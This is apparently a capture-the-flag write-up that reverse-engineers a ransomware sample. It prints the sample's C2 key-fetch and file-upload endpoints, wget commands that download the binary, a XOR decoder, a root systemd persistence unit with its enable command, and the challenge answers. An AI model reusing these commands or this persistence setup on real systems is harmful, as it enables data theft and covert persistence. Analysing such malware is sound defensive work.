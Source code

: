# Lockpick3.0

## Speech
```
The threat actors of the Lockpick variant of Ransomware seem to have increased their skillset. Thankfully on this occasion they only hit a development, non production server. We require your assistance performing some reverse engineering of the payload in addition to some analysis of some relevant artifacts. Interestingly we can't find evidence of remote access so there is likely an insider threat.... Good luck! Please note on the day of release this is being utilised for a workshop, however will still be available (and free).
```

## Analysis
1. Open the ELF file in Ghidra
2. Go to the `entry` function, double click on the first argument, it's the main function
3. Modify the function signature :
![main function signature](../../img/lockpick3/00_main_signature.png)
4. In the beginning of the main we can see 7 call to a function taking a global as first argument, let's go in this function and modify it, after a little bit of reading we can see it's a function xoring the global with the first argument :
![xor function](../../img/lockpick3/01_xor_function.png)
5. Then I go back in the main function and made some formating, I changed the name of the global in order to recognize them if reused later
![main first stage](../../img/lockpick3/02_main_xor.png)
6. Then we have a line with a function taking 3 buffer as arguments, let's go in this function
    - first thing we can see the local_13c is the return value
    - then continue to lvar2 which is the return of curl_easy_init function, so we know this function is doing something with curl
    - Then a function is called with one argument, the function FUN_00102d7d :
        - This function used the function gethostname
        - if the return is different than 0 a variable is set wit the value "unknown"
        - Then the result of the xor of the third global string xored in the main is stored in a variable (len 7)
        - Then the first param is set with a string containing "passphrase :" (then the third decrypt string) and "hostname :" (with unknonw)
        - Not sure what this function does, I think it check the hostname
        ![hostname function](../../img/lockpick3/03_hostname_function.png)
    - After the hostname function we have options added to the curl instance (we know we send json or received)
    - then store the first decrypted string in a buffer and add the /connect at the end, probably an URL/domain name
    - Check if curl is inited and add some option with curl_easy_setopt function (https://curl.se/libcurl/c/curl_easy_setopt.html and the code : https://gist.github.com/jseidl/3218673)
    - The curl is done wiht curl_easy_perform and the result is stored in a variable
    - In the option we have a malloc for this option : `CURLOPT_FILE = 10001;` which mean the result has been stored in a file, after the if we see the use of `cJSON_Parse`
    - Each `cJSON_GetObjectItem` take the parsed json and a string then store the "value" for the given "key" (the string pointed to) store the value in a var and this var is then attribute to the parameters of the function
    ![curl request key and iv](../../img/lockpick3/04_request_json.png)
    - This function is making a request to the C2 in order to recover a key, an IV and a client ID probably to encrypt later
7. If the curl request successfully recover the json information a new function is launched, `FUN_00102eeb` :
    - The second decoded string is stored in a variable and used by the function `opendir`, so the second decrypted string must be a folder path (`__dirp` is a structure (an object of type dir), https://pubs.opengroup.org/onlinepubs/009695399/functions/opendir.html and the DIR structure : https://www.gnu.org/software/libc/manual/html_node/Directory-Entries.html)
    - if the opendir is successful then we use readdir (in a loop) to iterate through the file of the folder
    - the `d_name` of the file (the name of the file) is concatenated to the path then stored in a variable
    - Then a function is called and this function only call the `xstat` function (https://codebrowser.dev/glibc/glibc/sysdeps/unix/sysv/linux/xstat.c.html), this function is used for getting info about the file NAME
    - After we have two check, one checking if the file name is '.' and one to check if '..' to not encode the current and previous directory, to skip them
    - The next function is full of file extension, I think this function check the extension to do action only on these extensions
    - The function in the if (`FUN_001031eb`)
        - The function xpg_basename return the last component of a file name : https://refspecs.linuxbase.org/LSB_5.0.0/LSB-Core-generic/LSB-Core-generic/baselib---xpg-basename.html and stored in a var then opened with fopen
        - then a curl is created and options are added
        - this function ultimately send the file to the /upload endpoint
    - If the exfiltration is ok we have another function (`FUN_0010255a`)
        - https://en.cppreference.com/w/c/io/ftell
        - https://en.cppreference.com/w/cpp/io/c/fseek
        - https://github.com/openssl/openssl/issues/22628
        ![encrypt file function](../../img/lockpick3/06_encrypt_file.png)
    - We have a function iterating each file, checking the extension and if it's interesting the file is exfiltrate via curl then encrypted
    ![iterate files](../../img/lockpick3/07_iterate_files.png)

8. To continue we need to decrypt the xored data, let's find the key in the vmem file :
```bash
$ strings ubuntu-client-Snapshot2.vmem | grep ubuntu-client
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
chmod +x ubuntu-client 
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
./ubuntu-client xGonnaGiveIt2Ya
wget http://10.10.0.70:8000/ubuntu-client
wget http://10.10.0.70:8123/ubuntu-client
```
9. The key is `xGonnaGiveIt2Ya`, I wrote a little script to decode the 7 encoded strings :
```python
enc_strings = [[ 0x10, 0x33, 0x1b, 0x1e, 0x1d, 0x5b, 0x68, 0x46, 0x06, 0x09, 0x28, 0x1a, 0x59, 0x2d, 0x0e, 0x16, 0x6a, 0x0e, 0x1e, 0x1e, 0x4c, 0x74, 0x18, 0x1f, 0x02, 0x38, 0x5a, 0x5d, 0x37, 0x05, 0x11, 0x20, 0x06, 0x1a, 0x0f, 0x0d, 0x28, 0x0a, 0x13, 0x04, 0x27, 0x5a, 0x53, 0x29, 0x11, 0x57 ], [ 0x57, 0x34, 0x07, 0x0f, 0x1c, 0x04, 0x68, 0x00, 0x00, 0x00, 0x00, 0x00 ], [ 0x0b, 0x22, 0x0d, 0x06, 0x5c, 0x55 ], [ 0x57, 0x32, 0x1c, 0x1c, 0x41, 0x03, 0x2e, 0x07, 0x59, 0x10, 0x2b, 0x01, 0x5c, 0x2d, 0x14, 0x55, 0x35, 0x1a, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 ], [ 0x57, 0x22, 0x1b, 0x0d, 0x41, 0x12, 0x3e, 0x1a, 0x02, 0x00, 0x24, 0x10, 0x1d, 0x2a, 0x18, 0x0b, 0x33, 0x0a, 0x03, 0x41, 0x14, 0x25, 0x1c, 0x18, 0x11, 0x3c, 0x2b, 0x40, 0x2c, 0x0f, 0x16, 0x2e, 0x01, 0x09, 0x40, 0x12, 0x22, 0x1b, 0x00, 0x0c, 0x2a, 0x11, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 ], [ 0x23, 0x12, 0x01, 0x07, 0x1a, 0x3c, 0x4d, 0x2d, 0x13, 0x16, 0x2a, 0x06, 0x5b, 0x29, 0x15, 0x11, 0x28, 0x01, 0x53, 0x3b, 0x03, 0x32, 0x07, 0x02, 0x10, 0x69, 0x26, 0x47, 0x37, 0x0f, 0x11, 0x29, 0x08, 0x64, 0x2f, 0x07, 0x33, 0x0c, 0x04, 0x58, 0x27, 0x11, 0x46, 0x2e, 0x0e, 0x0a, 0x2c, 0x41, 0x1a, 0x0f, 0x13, 0x20, 0x0c, 0x02, 0x6f, 0x12, 0x27, 0x57, 0x2b, 0x17, 0x11, 0x24, 0x0a, 0x33, 0x64, 0x24, 0x3f, 0x0c, 0x15, 0x36, 0x3d, 0x15, 0x40, 0x2d, 0x5c, 0x57, 0x32, 0x1c, 0x1c, 0x41, 0x03, 0x2e, 0x07, 0x59, 0x10, 0x2b, 0x01, 0x5c, 0x2d, 0x14, 0x55, 0x35, 0x1a, 0x00, 0x4e, 0x19, 0x00, 0x06, 0x18, 0x0b, 0x28, 0x33, 0x5b, 0x2f, 0x04, 0x31, 0x33, 0x5d, 0x37, 0x0f, 0x6b, 0x15, 0x0c, 0x05, 0x11, 0x28, 0x06, 0x46, 0x64, 0x00, 0x14, 0x30, 0x0e, 0x17, 0x1d, 0x6b, 0x12, 0x1a, 0x13, 0x17, 0x74, 0x06, 0x5d, 0x36, 0x15, 0x72, 0x1c, 0x26, 0x00, 0x1d, 0x15, 0x26, 0x05, 0x1a, 0x38, 0x43, 0x23, 0x53, 0x37, 0x15, 0x1d, 0x23, 0x2d, 0x17, 0x53, 0x0c, 0x32, 0x05, 0x02, 0x0c, 0x64, 0x01, 0x41, 0x3c, 0x13, 0x56, 0x33, 0x0e, 0x1c, 0x09, 0x04, 0x33, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 ], [ 0x0b, 0x3e, 0x1c, 0x1a, 0x0b, 0x0c, 0x24, 0x1d, 0x1a, 0x45, 0x2d, 0x15, 0x57, 0x34, 0x0e, 0x16, 0x6a, 0x1d, 0x0b, 0x02, 0x0e, 0x26, 0x0d, 0x56, 0x43, 0x6f, 0x54, 0x41, 0x20, 0x12, 0x0c, 0x22, 0x02, 0x0d, 0x1a, 0x0d, 0x67, 0x0c, 0x18, 0x04, 0x2b, 0x18, 0x57, 0x79, 0x14, 0x1a, 0x32, 0x01, 0x1a, 0x1b, 0x3e, 0x35, 0x1c, 0x18, 0x0b, 0x20, 0x1a, 0x55, 0x77, 0x12, 0x1d, 0x35, 0x19, 0x07, 0x0d, 0x04, 0x67, 0x4f, 0x50, 0x45, 0x3a, 0x0d, 0x41, 0x2d, 0x04, 0x15, 0x24, 0x1b, 0x02, 0x4e, 0x12, 0x33, 0x08, 0x04, 0x11, 0x69, 0x01, 0x50, 0x2c, 0x0f, 0x0c, 0x32, 0x30, 0x1c, 0x1b, 0x0f, 0x29, 0x00, 0x18, 0x02, 0x67, 0x07, 0x57, 0x2b, 0x17, 0x11, 0x24, 0x0a ]]

key = 'xGonnaGiveIt2Ya'

for i in range(len(enc_strings)):
    decoded_string = ''
    for j in range(len(enc_strings[i])):
        decoded_string += chr(enc_strings[i][j] ^ ord(key[j % len(key)]))
    print (f'Encoded string number : {i} decoded to : {decoded_string}')
```
10. We get the following result :
```bash
Encoded string number : 0 decoded to : https://plankton-app-3qigq.ondigitalocean.app/
Encoded string number : 1 decoded to : /share/iveIt
Encoded string number : 2 decoded to : sebh24
Encoded string number : 3 decoded to : /usr/bin/ubuntu-runnaGiveIt2YaxG
Encoded string number : 4 decoded to : /etc/systemd/system/ubuntu_running.service2YaxGonnaGiveIt2YaxGon
Encoded string number : 5 decoded to : [Unit]
Description=Ubuntu Running
After=network.target
[Service]
ExecStart=/usr/bin/ubuntu-run xGonnaGiveIt2Ya
Restart=always
User=root
[Install]
WantedBy=multi-user.targetiveIt2YaxGonnaGiveIt
Encoded string number : 6 decoded to : systemctl daemon-reload && systemctl enable ubuntu_running.service && systemctl start ubuntu_running.service
```

## Questions
1. Please confirm the file hash of the malware? (MD5)
    > a2444b61b65be96fc2e65924dee8febd
    - md5sum * after unzipping
2. Please confirm the XOR string utilised by the attacker for obfuscation?
    > xGonnaGiveIt2Ya
    - Found in the mmeory cf. 8
3. What is the API endpoint utilised to retrieve the key?
    > https://plankton-app-3qigq.ondigitalocean.app/connect
    - Cf. 6, first decoded string + /connect
4. What is the API endpoint utilised for upload of files?
    > https://plankton-app-3qigq.ondigitalocean.app/upload/
    - Cf. 7
5. What is the name of the service created by the malware?
    > ubuntu_running.service
    - Cf. 9/10
6. What is the technique ID utilised by the attacker for persistence?
    > T1543.002
    - just check google, it's adding a systemd service
